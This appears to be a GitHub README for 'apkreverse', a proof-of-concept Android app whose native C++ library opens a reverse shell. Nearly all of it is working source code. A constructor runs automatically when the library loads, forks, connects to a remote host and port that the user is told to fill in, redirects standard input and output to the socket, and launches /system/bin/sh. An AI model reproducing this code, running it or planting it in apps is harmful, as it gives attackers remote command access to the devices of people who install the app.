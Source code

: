 # apkreverse

<p align="left">
	<a href="https://kotlinlang.org/"><img src="https://img.shields.io/badge/made%20with-Kotlin-purple"></a>
    <a href="https://learn.microsoft.com/pt-br/cpp/cpp/?view=msvc-170"><img src="https://img.shields.io/badge/made%20with-cpp-pink"></a>
	<a href="#"><img src="https://img.shields.io/badge/platform-osx%2Flinux%2Fwindows-blueviolet"></a>
</p>

`apkreverse` is simply a proof of concept (POC) of an application that runs reverse shell using `kotlin` and calling the native `C++` lib

# Usage
When performing the tests, change the IP and Port in the path found in app/src/main/cpp/reverseshell.cpp
```c++
#include <stdio.h>
#include <unistd.h>

#include <sys/socket.h>
#include <arpa/inet.h> //htons
#include <netinet/in.h>
#include <sys/types.h>

#define REMOTE_HOST "127.0.0.1" // Add IP
#define REMOTE_PORT 7070 // Add port

void __attribute__ ((constructor)) reverse()
{
    int s;
    struct sockaddr_in sa;

    if(fork() == 0) {

        sa.sin_family = AF_INET;
        sa.sin_addr.s_addr = inet_addr(REMOTE_HOST);
        sa.sin_port = htons(REMOTE_PORT);

        s = socket(AF_INET, SOCK_STREAM, 0);
        connect(s, (struct sockaddr *) &sa, sizeof(sa));

        dup2(s, 0); // stdin
        dup2(s, 1); // stdout
        dup2(s, 2); // stderr

        execve("/system/bin/sh", 0, 0);
    }
}
```
